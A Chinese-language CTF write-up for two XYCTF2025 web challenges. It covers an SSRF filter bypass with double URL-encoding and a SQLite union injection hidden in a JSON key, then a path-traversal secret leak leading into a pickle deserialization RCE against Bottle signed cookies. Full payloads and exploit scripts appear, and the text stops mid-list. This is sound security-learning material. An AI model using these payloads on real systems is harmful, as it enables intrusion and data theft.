---
title: "XYCTF2025Web"
date: 2025-04-08T18:43:41+08:00
summary: "XYCTF2025web"
url: "/posts/XYCTF2025/"
categories:
  - "赛题wp"
tags:
  - "XYCTF2025"
draft: false
---

# Web

## fate

### #json反序列化+sqlite注入



附件有源码

```python
#!/usr/bin/env python3
import flask
import sqlite3
import requests
import string
import json
app = flask.Flask(__name__)
blacklist = string.ascii_letters#定义了黑名单变量 blacklist，包含所有的 ASCII 字母（A-Z, a-z）。
def binary_to_string(binary_string):#将二进制字符串（8-bit格式）转换为普通字符串
    if len(binary_string) % 8 != 0:
        raise ValueError("Binary string length must be a multiple of 8")
    binary_chunks = [binary_string[i:i+8] for i in range(0, len(binary_string), 8)]
    string_output = ''.join(chr(int(chunk, 2)) for chunk in binary_chunks)
    
    return string_output

@app.route('/proxy', methods=['GET'])
def nolettersproxy():
    url = flask.request.args.get('url')
    if not url:
        return flask.abort(400, 'No URL provided')
    
    target_url = "http://lamentxu.top" + url
    for i in blacklist:
        if i in url:
            return flask.abort(403, 'I blacklist the whole alphabet, hiahiahiahiahiahiahia~~~~~~')
    if "." in url:
        return flask.abort(403, 'No ssrf allowed')
    response = requests.get(target_url)

    return flask.Response(response.content, response.status_code)
def db_search(code):
    with sqlite3.connect('database.db') as conn:
        cur = conn.cursor()
        cur.execute(f"SELECT FATE FROM FATETABLE WHERE NAME=UPPER(UPPER(UPPER(UPPER(UPPER(UPPER(UPPER('{code}')))))))")
        found = cur.fetchone()
    return None if found is None else found[0]

@app.route('/')
def index():
    print(flask.request.remote_addr)
    return flask.render_template("index.html")

@app.route('/1337', methods=['GET'])
def api_search():
    if flask.request.remote_addr == '127.0.0.1':
        code = flask.request.args.get('0')
        if code == 'abcdefghi':
            req = flask.request.args.get('1')
            try:
                req = binary_to_string(req)
                print(req)
                req = json.loads(req) # No one can hack it, right? Pickle unserialize is not secure, but json is ;)
            except:
                flask.abort(400, "Invalid JSON")
            if 'name' not in req:
                flask.abort(400, "Empty Person's name")

            name = req['name']
            if len(name) > 6:
                flask.abort(400, "Too long")
            if '\'' in name:
                flask.abort(400, "NO '")
            if ')' in name:
                flask.abort(400, "NO )")
            """
            Some waf hidden here ;)
            """

            fate = db_search(name)
            if fate is None:
                flask.abort(404, "No such Person")

            return {'Fate': fate}
        else:
            flask.abort(400, "Hello local, and hello hacker")
    else:
        flask.abort(403, "Only local access allowed")

if __name__ == '__main__':
    app.run(debug=True)

```

```python
import sqlite3

conn = sqlite3.connect("database.db")
conn.execute("""CREATE TABLE FATETABLE (
  NAME TEXT NOT NULL,
  FATE TEXT NOT NULL
);""")
Fate = [
    ('JOHN', '1994-2030 Dead in a car accident'),
    ('JANE', '1990-2025 Lost in a fire'),
    ('SARAH', '1982-2017 Fired by a government official'),
    ('DANIEL', '1978-2013 Murdered by a police officer'),
    ('LUKE', '1974-2010 Assassinated by a military officer'),
    ('KAREN', '1970-2006 Fallen from a cliff'),
    ('BRIAN', '1966-2002 Drowned in a river'),
    ('ANNA', '1962-1998 Killed by a bomb'),
    ('JACOB', '1954-1990 Lost in a plane crash'),
    ('LAMENTXU', r'2024 Send you a flag flag{FAKE}')
]
conn.executemany("INSERT INTO FATETABLE VALUES (?, ?)", Fate)

conn.commit()
conn.close()

```

在/1337路由下有需要本地用户访问的限制，伪造请求头后发现绕过不过去，估计不是请求头伪造

然后看proxy中可以传入url进行拼接，限制不多，只是限制了字母和小数点，看看能不能SSRF伪造请求访问/1337路由，因为如果/proxy页面存在SSRF的话，通过这个页面去访问1337的话用的本地回环地址，也能达到一个伪造本地访问的目的

还是先看1337路由下的代码有哪些东西

```python
@app.route('/1337', methods=['GET'])
def api_search():
    if flask.request.remote_addr == '127.0.0.1':
        code = flask.request.args.get('0')
        if code == 'abcdefghi':
            req = flask.request.args.get('1')
            try:
                req = binary_to_string(req)
                print(req)
                req = json.loads(req) # No one can hack it, right? Pickle unserialize is not secure, but json is ;)
            except:
                flask.abort(400, "Invalid JSON")
            if 'name' not in req:
                flask.abort(400, "Empty Person's name")

            name = req['name']
            if len(name) > 6:
                flask.abort(400, "Too long")
            if '\'' in name:
                flask.abort(400, "NO '")
            if ')' in name:
                flask.abort(400, "NO )")
            """
            Some waf hidden here ;)
            """

            fate = db_search(name)
            if fate is None:
                flask.abort(404, "No such Person")

            return {'Fate': fate}
        else:
            flask.abort(400, "Hello local, and hello hacker")
    else:
        flask.abort(403, "Only local access allowed")
```

几个条件

- 第一个：要求地址是127.0.0.1
- 第二个：GET传参code == 'abcdefghi'
- 第三个：GET传参1(这里需要为二进制，会经过binary_to_string函数转化成字符串，然后根据proxy路由中禁用了字母，暗示很明显了这两个路由的条件是互补的)
- 第四个：name需要在json加密后的字符串中
- 第五个：name的值的长度不能超过6个，name的值不能有`'`，`)`
- 然后会在数据库中查找相关的数据并返回

`json.loads()` 是 Python 中用于将 **JSON 格式的字符串** 转换为 **Python 对象（字典、列表等）** 的方法。所以我们需要将json转化成二进制再传入

根据那个Fate中的内容，先试着传入name为ANNA查询一下，写个json转二进制的脚本

```python
import sys
def json_string_to_binary(input_string):
    binary_output = ''.join(format(ord(char), '08b') for char in input_string)
    return binary_output

if __name__ == '__main__':
    string = json_string_to_binary(sys.argv[1])
    print(string)
```

终端传入我们的json字符串就行



然后进行SSRF

因为在源码中在url的前面有一个固定的域名，我们需要传入自己自定义的域名的话可以用@去绕过，例如www.aaa.com@bbb.com的话，会默认解析为bbb.com的地址，所以我们的payload就是

```
/proxy?url=@0:8080/1337?0=%61%62%63%64%65%66%67%68%69&1=0111101101101110011000010110110101100101001110100100000101001110010011100100000101111101
```

因为过滤了字母，不可以用http协议头，也过滤了小数点，不能用0.0.0.0，但是可以用0，linux 里访问0会解析为127.0.0.1



但是这里传入之后返回

```
I blacklist the whole alphabet, hiahiahiahiahiahiahia~~~~~~
```

还是被黑名单检测到了，但是看url里面没有字母啊。。。估计是服务器对%61%62%63%64%65%66%67%68%69解码了然后检测到了，试一下二次编码

赛后学习：

因为waf在ssrf前，所以可以使用二次URL编码来传入abcdef。



改一下payload

```
/proxy?url=@0:8080/1337?0=%25%36%31%25%36%32%25%36%33%25%36%34%25%36%35%25%36%36%25%36%37%25%36%38%25%36%39%261=011110110010001001101110011000010110110101100101001000100011101000100010010000010100111001001110010000010010001001111101
```



成功查询回显，然后就是注入了，先看那个查询语句，不太习惯看大写，就全部换成小写去看了

```
select fate from fatetable where name=upper(upper(upper(upper(upper(upper(upper('{code}')))))))
```

sqlite注入，但是sqlite和mysql等还是有些区别的，sqlite的每一个数据库就是一个文件。之前在另一篇中也有介绍过sqlite的基础知识，这里过滤了单引号，括号，然后限制了字符长度为6，这时候正常的注入显然是行不通的

本地测试一下

```python
a = '{"name":{"12322323323":"123"}}'
a = json.loads(a)
name = a['name']
print(name)
if len(name) > 6:
    print("Too long")
#{'12322323323': '123'}
```

这里并没有检测name的长度，这里的 `name` 是一个字典，而 `len(name)` 返回的是该字典中的键值对数量，而不是字符串长度。在这个例子中，`name` 只包含一个键（`"12322323323"`），所以预期会返回1



并且json.loads解析完的字典，转为字符串自带单引号，所以试着在键中进行注入

```python
import json
def json_string_to_binary(input_string):
     binary_output = ''.join(format(ord(char), '08b') for char in input_string)
     return binary_output


def binary_to_string(binary_string):  # 将二进制字符串（8-bit格式）转换为普通字符串
     if len(binary_string) % 8 != 0:
         raise ValueError("Binary string length must be a multiple of 8")
     binary_chunks = [binary_string[i:i + 8] for i in range(0, len(binary_string), 8)]
     string_output = ''.join(chr(int(chunk, 2)) for chunk in binary_chunks)
     return string_output

if __name__ == '__main__':
     a = '''{"name":{")))))))":"123"}}'''
     string = json_string_to_binary(a)
     print(string)
     try:
         req = binary_to_string(string)
         print(req)
         req = json.loads(req)  # No one can hack it, right? Pickle unserialize is not secure, but json is ;)
     except:
         print(400, "Invalid JSON")
     name = req['name']
     if len(name) > 6:
         print(400, "Too long")
     if '\'' in name:
         print(400, "NO '")
     if ')' in name:
         print(400, "NO )")

```



这里遇到对括号的过滤也没触发，估计还是检测不到，这样的话直接打就行了



这里说查询LAMENTXU的话会返回flag，那我们联合查询注入一下

```python
import json
def json_string_to_binary(input_string):
     binary_output = ''.join(format(ord(char), '08b') for char in input_string)
     return binary_output


def binary_to_string(binary_string):  # 将二进制字符串（8-bit格式）转换为普通字符串
     if len(binary_string) % 8 != 0:
         raise ValueError("Binary string length must be a multiple of 8")
     binary_chunks = [binary_string[i:i + 8] for i in range(0, len(binary_string), 8)]
     string_output = ''.join(chr(int(chunk, 2)) for chunk in binary_chunks)
     return string_output

if __name__ == '__main__':
    #select fate from fatetable where name=upper(upper(upper(upper(upper(upper(upper('{code}')))))))
     a = '''{"name":{"))))))) union select FATETABLE where name=\"LAMENTXU\"--+":"123"}}'''
     string = json_string_to_binary(a)
     print(string)
     try:
         req = binary_to_string(string)
         req = json.loads(req)# No one can hack it, right? Pickle unserialize is not secure, but json is ;)
         print(req)
     except:
         print(400, "Invalid JSON")
     name = req['name']
     if len(name) > 6:
         print(400, "Too long")
     if '\'' in name:
         print(400, "NO '")
     if ')' in name:
         print(400, "NO )")

```

在a中需要对双引号进行转义，但是这里报错Invalid JSON，绕了半天才想明白这里还需要加斜杠去转义正斜杠，加个打印代码去看一下





可以看到这里的斜杠成功保留下来去转义双引号，所以我们的poc就是

```
     a = """{
     "name": {
     "))))))) union select FATE FROM FATETABLE WHERE NAME= \\"LAMENTXU\\" --+": "123"
     }
     }"""
```

最后的payload就是

```
?url=@0:8080/1337?0=%25%36%31%25%36%32%25%36%33%25%36%34%25%36%35%25%36%36%25%36%37%25%36%38%25%36%39%261=011110110000101000100000001000000010000000100000001000000010001001101110011000010110110101100101001000100011101000100000011110110000101000100000001000000010000000100000001000000010001000101001001010010010100100101001001010010010100100101001001000000111010101101110011010010110111101101110001000000111001101100101011011000110010101100011011101000010000001000110010000010101010001000101001000000100011001010010010011110100110100100000010001100100000101010100010001010101010001000001010000100100110001000101001000000101011101001000010001010101001001000101001000000100111001000001010011010100010100111101001000000101110000100010010011000100000101001101010001010100111001010100010110000101010101011100001000100010000000101101001011010010101100100010001110100010000000100010001100010011001000110011001000100000101000100000001000000010000000100000001000000111110100001010001000000010000000100000001000000010000001111101
```



## Signin

赛后来完善一下分析源码的步骤

bottle框架下会用在cookie中使用pickle，在鉴权的时候用pickle反序列化session进行存储，所以只需要知道密钥就可以打pickle反序列化，但是我们还是先分析一下bottle框架的源码，看cookie有关的内容就行了



```python
def get_cookie(self, key, default=None, secret=None, digestmod=hashlib.sha256):
        """ Return the content of a cookie. To read a `Signed Cookie`, the
            `secret` must match the one used to create the cookie (see
            :meth:`Response.set_cookie <BaseResponse.set_cookie>`). If anything goes wrong (missing
            cookie or wrong signature), return a default value. """
        value = self.cookies.get(key)
        if secret:
            # See BaseResponse.set_cookie for details on signed cookies.
            if value and value.startswith('!') and '?' in value:
                sig, msg = map(tob, value[1:].split('?', 1))
                hash = hmac.new(tob(secret), msg, digestmod=digestmod).digest()
                if _lscmp(sig, base64.b64encode(hash)):
                    dst = pickle.loads(base64.b64decode(msg))
                    if dst and dst[0] == key:
                        return dst[1]
            return default
        return value or default
```

分析一下

`get_cookie`方法用于读取HTTP中设置的cookie，并支持签名cookie的解密验证，在形参中可以看到只要能拿到secret就能进行签名解密

这里还分了有无secret签名的cookie两种：

- 无secret时会直接返回未解密的cookie值
- 如果提供了secret的话，Bottle会进行以下步骤

1.检验签名cookie的内容是否完整

- 签名 Cookie 格式`!<signature>?<message>`
  - `!` 标记这是签名 Cookie
  - `signature` 是 HMAC 签名
  - `message` 是加密的原始数据（Base64 + Pickle 序列化）

2.验证签名

```python
hash = hmac.new(tob(secret), msg, digestmod=digestmod).digest()
if _lscmp(sig, base64.b64encode(hash)):  # 对比签名是否一致
    dst = pickle.loads(base64.b64decode(msg))  # 解码消息
    if dst and dst[0] == key:  # 检查键名是否匹配
        return dst[1]          # 返回原始值
return default  # 任何一步失败则返回默认值
```

这里的话如果签名一致则会进行解码，并反序列化pickle的内容

到这里就补充完了，下面就是比赛时候的做题思路了

### #bottle下pickle反序列化

```py
# -*- encoding: utf-8 -*-
'''
@File    :   main.py
@Time    :   2025/03/28 22:20:49
@Author  :   LamentXU 
'''
'''
flag in /flag_{uuid4}
'''
from bottle import Bottle, request, response, redirect, static_file, run, route
with open('../../secret.txt', 'r') as f:
    secret = f.read()

app = Bottle()
@route('/')
def index():
    return '''HI'''
@route('/download')
def download():
    name = request.query.filename
    if '../../' in name or name.startswith('/') or name.startswith('../') or '\\' in name:
        response.status = 403
        return 'Forbidden'
    with open(name, 'rb') as f:
        data = f.read()
    return data

@route('/secret')
def secret_page():
    try:
        session = request.get_cookie("name", secret=secret)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=secret)
            return 'Forbidden!'
        if session["name"] == "admin":
            return 'The secret has been deleted!'
    except:
        return "Error!"
run(host='0.0.0.0', port=8080, debug=False)

```

可以看到如果我们访问`../../secret.txt`的话是可以把文件读出来的，但是在download里有一定的过滤，绕过就行了

这里禁止的是`../../`，并且开头不能是`/`或者`../`，用`./`去绕过就行(`./`表示当前目录，添加进去不会造成任何影响)



可以看到穿越成功拿到secret，应该是加密pickle的密钥

```
Hell0_H@cker_Y0u_A3r_Sm@r7
```

然后看/secret路由，先看name的cookie

```
name="!4SSvdzbD0UYv84Lnpmm1VLtPBddCrvhgQOLkNQbhjek=?gAWVGQAAAAAAAABdlCiMBG5hbWWUfZRoAYwFZ3Vlc3SUc2Uu"
```

因为是Bottle框架，这里符合签名cookie的格式



!后面的是HMAC/SHA256 **签名校验值**，?号后面的是pickle序列化的字符串，把pickle的那段解密一下

```python
import pickle
import base64
data = pickle.loads(base64.b64decode("gAWVGQAAAAAAAABdlCiMBG5hbWWUfZRoAYwFZ3Vlc3SUc2Uu"))
print(data)
//['name', {'name': 'guest'}]
```

这里直接改pickle的那段是不对的，需要结合前面的**签名cookie**和密钥进行加密



去学了一下pickle反序列化，可以用`__reduce__`构造方法,在反序列化的时候自动执行，类似于php中的`__wakeup__`试着进行RCE但是发现打不通，估计是禁用了，只能试试opcode了

本地测试一下

```python
import pickle

opcode = b'''cos
system
(S'whoami'
tR.'''
pickle.loads(opcode)
#wanth3f1ag
```

- `cos` → 对应操作码 `c`（获取一个全局对象或import一个模块） + `os`（模块名）

- `system` → 调用`os.system()`方法

- ```
